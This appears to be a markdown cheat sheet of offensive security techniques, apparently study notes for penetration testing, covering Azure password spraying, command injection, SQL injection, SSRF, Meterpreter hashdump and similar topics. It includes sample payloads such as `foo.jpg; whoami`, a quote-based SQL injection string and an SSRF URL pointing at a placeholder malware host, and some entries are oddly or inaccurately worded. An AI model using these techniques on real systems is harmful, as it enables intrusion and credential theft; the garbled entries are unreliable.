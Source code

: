 # OCO TTPs

## Azure
- **Azure smart lockout bypass** - Rotate the source IP address.
- **Azure blobs enumeration** - An attacker can leverage DNS logging to enumerate Azure blobs.
- **Information needed to enumerate Azure Cloud storage with default URL**: Account and container names.
- **AADInternals** - PowerShell module to collect information from Azure, including reconnaissance data.

## BeEF
- Default file name is `hook.js` to deliver to the victim.

## Certutil
- **Living Off the Land (LOL) tools** - Can be used instead of cURL or Wget.

## Command Injection
- **Linux**: `foo.jpg; whoami`.

## Cross-Site Scripting (XSS)
- **Best attack vector** - User-generated message board.
- **Reflected XSS attack** - Requires some social engineering and exploiting web server–side input processing weaknesses to attack a user, exploiting a vulnerability in the server.

## Drive-By Attacks
- Exploit a user browsing the internet through a seemingly innocuous website.
- The user connects to a webpage that contains code to exploit the victim's browser.

## Golden Ticket
- Once achieved, all invalid accounts will be allowed.

## MFASweep
- **MFASweep usage** - Uses a valid username and password combination (possibly recovered from MSOLSpray) and tests different authentication endpoints publicly accessible for Microsoft 365 users to bypass MFA.

## MSOLSpray
- **Proxy URL** - An argument supplied to `msolspray` to use as an AWS API gateway generated by tools like Fireprox.

## Nmap
- **Nmap NSE script argument**: `--script-help "http*"` - Describes how to use the named script(s).
- **Default scan type with root access**: TCP SYN scan.
- **ICMP timestamp or address mask request discovery scan** - May produce different results from ICMP echo request discovery scan during network reconnaissance due to firewall blocking echo request/reply packets.

## Password Attacks
- **Credential stuffing** - Uses passwords from breach dumps against target accounts.
- **Password spraying** - Increases chances of getting into a system without locking user accounts. Bad login counter timer is crucial.
- **First step in password-cracking attacks**: Exploit a low-to-medium importance target.

## Reverse Shell
- **SSH** - Allows an attacker to connect to a specific port and IP address to pivot.

## SSRF (Server-Side Request Forgery)
- This attack can significantly impact cloud targets by disclosing instance metadata.
- **Exploitation indicator** - `curl` of `/etc/shadow`.
- Example: `login.asdf.com/?a=server1&b=http://malware.com/scripts/gotcha.php`.

## SQL Injection
- **SQL statement parts**: Verb, Source, and Refinement.
- **Common SQL attack** - Targets the supporting database of an application.
- **Terminate a SQL query** - Use `;`.
- **Initial experimentation** - Start with quotes: `' "`.
- Example: `Dkrier’ OR ‘k’=’k`.
- **UNION SQL clause** - Can be used to combine new SQL queries with prior query results.

## Smbclient
- Lists Windows shares from a Linux machine.

## TLS-Scan
- Extracts certificate information from identified servers on a given port.

## Watering Hole Attacks
- Target a specific victim group, compared to a drive-by.
- Example file type for attack: `.docm` - Microsoft Office files with malicious macros.
- Example attack: Spreadsheet with malicious macros placed on a financial analysis website.

## DNS Zone Transfer
- The process intended for replication from primary DNS to backup DNS servers. An attacker can obtain all records associated with a DNS domain if compromised.
- **Review the NS records** before requesting a zone transfer.

---

## Meterpreter
- **Hashdump** - Migrate to the `lsass.exe` process and run `hashdump` to obtain hashes from memory.

## Circumventing Password Managers
- Retrieve passwords copied to the clipboard.

## Code Wrapping
- Use third-party programming libraries to encode one language as another.
